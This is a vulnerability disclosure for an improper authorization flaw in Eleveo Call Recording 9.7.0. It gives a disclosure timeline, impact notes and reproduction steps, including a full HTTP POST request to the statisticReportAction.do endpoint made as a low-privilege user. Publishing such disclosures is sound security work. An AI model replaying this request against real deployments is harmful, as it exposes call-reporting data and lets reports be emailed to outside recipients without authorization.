







# Eleveo Call Recording Software 9.7.0 statisticReportAction.do Improper Authorization

> - https://vuldb.com/vuln/377443
> - https://vuldb.com/submit/797461
> - https://www.cve.org/CVERecord?id=CVE-2026-15376

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 5/4/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 10/7/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

A Broken Access Control vulnerability exists in /callrec/statisticReportAction.do endpoint of Eleveo Call Recording 9.7.0, which allows low-privileged authenticated users, including those without “Other Settings” privilege, to access the reporting functionality of the application. The backend does not properly enforce role-based access control, allowing unauthorized users to generate call reports and access reporting data. Additionally, the functionality permits sending generated reports via email to arbitrary recipients. These capabilities should be restricted to administrative users but can be accessed by lower-privileged accounts.

## Implications

- Disclosure of call reporting details, including information related to recorded calls and reporting metrics.
- Unauthorized distribution of reports if attackers send generated reports to external email addresses.

## Vulnerability Type

Broken Access Control / Improper Authorization

## Steps to Reproduce

1. Login as a low-privilege user with no “**Other Settings**” privilege




2. Navigate to https://example.local/callrec/daily_report.jsp





3. Fill in the filters, then click **Process**. A request will be sent to **https://example.local/callrec/statisticReportAction.do.** Observe the report is generated.



```http
POST /callrec/statisticReportAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Content-Length: 1011
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://example.local/callrec/daily_report.jsp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&dispatch=statisticReport&branch=&myFormName=StatisticReportForm&value%28filter_6%29=0&value%28filter_6_formname%29=filter_6&value%28box_2%29=on&value%28box_4%29=on&value%28box_6%29=on&value%28box_8%29=on&value%28box_10%29=on&value%28box_12%29=on&value%28box_14%29=on&value%28box_16%29=on&value%28filter_1%29=1&value%28filter_1_formname%29=filter_1&showRadio=on&periodicalEmails=&value%28filter_7%29=today&value%28filter_7_formname%29=filter_7&value%28filter_5_name%29=start&value%28filter_5_formname%29=filter_5&value%28filter_5_mask%29=&value%28filter_3_formname%29=filter_3&value%28filter_3_mask%29=dd.MM.yyyy+HH%3Amm%3Ass&calendarFormatDate=mm.dd.yyyy&value%28filter_3%29=&cboMonth1=2&cboYear1=2026&value%28filter_2_name%29=stop&value%28filter_2_formname%29=filter_2&value%28filter_2_mask%29=&value%28filter_4%29=&value%28filter_4_formname%29=filter_4&value%28filter_4_mask%29=dd.MM.yyyy+HH%3Amm%3Ass&cboMonth2=2&cboYear2=2026&filterNum=27
```





4. Also, generating the report and sending it to an email works successfully.

